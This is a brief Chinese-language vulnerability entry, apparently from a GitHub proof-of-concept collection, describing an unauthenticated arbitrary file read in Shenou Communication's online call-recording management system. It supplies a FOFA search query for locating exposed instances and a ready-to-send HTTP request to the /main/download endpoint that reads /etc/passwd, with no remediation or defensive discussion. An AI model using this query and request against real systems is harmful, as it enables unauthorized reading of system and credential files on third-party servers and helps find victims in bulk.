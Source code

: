 ## 申瓯通信在线录音管理系统download任意文件读取漏洞

申瓯通信在线录音管理系统download任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```
title="在线录音管理系统"
```

## poc

```
GET /main/download?path=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image-20240618124301943](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406181243156.png)
